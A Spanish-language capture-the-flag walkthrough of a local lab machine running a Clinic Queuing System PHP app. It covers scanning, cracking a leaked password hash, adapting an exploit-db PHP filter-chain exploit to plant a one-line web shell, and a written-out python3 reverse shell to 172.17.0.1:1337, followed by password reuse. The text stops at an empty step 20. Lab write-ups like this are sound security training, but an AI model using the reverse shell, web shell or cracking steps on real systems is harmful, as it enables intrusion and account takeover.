

1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```



2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![./ANEXOS/Pasted image 20240925173823.png]
*Al ingresar a la url se carga un formulario de acceso.*

![[Pasted image 20240925180151.png]]
*Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.*

3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![[Pasted image 20240925174021.png]]
*Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.*

4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![[Pasted image 20240925174813.png]]
*Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.*

5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![[Pasted image 20240925175148.png]]
*Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.*

6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![[Pasted image 20240925175503.png]]
*Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.*

7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![[Pasted image 20240925175854.png]]
	*Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".*
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![[Pasted image 20240925180826.png]]
	*Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list*
	![[Pasted image 20240925181901.png]]
	*Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.*
	
8) Ataque de diccionario a los hashes encontrados.
	a) *Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.*
	b) *Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.*
	
	![[Pasted image 20240925183606.png]]
	![[Pasted image 20240925183512.png]]
	c) *Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".*

9) Volviendo la pagina principal en el login http://172.17.0.2.
![[Pasted image 20240925184644.png]]
*Iniciamos sesión con las credenciales obtenidas.*
![[Pasted image 20240925184845.png]]
*Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.*

10) Busueda de Clinic Queuing System (php) en google.
![[Pasted image 20240925185754.png]]
*Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.*

11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.
12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![[Pasted image 20241011082236.png]]
13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 
14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![[Pasted image 20241011083138.png]]
15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.
16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![[Pasted image 20241011085843.png]]
	*El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.*
	![[Pasted image 20241011090029.png]]
	*Ya tengo ejecución de comandos *
17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
	 ![[Pasted image 20241011090521.png]]
	 
 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
	 ![[Pasted image 20241011092359.png]]
19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
	 ![[Pasted image 20241011092814.png]]
	20) 
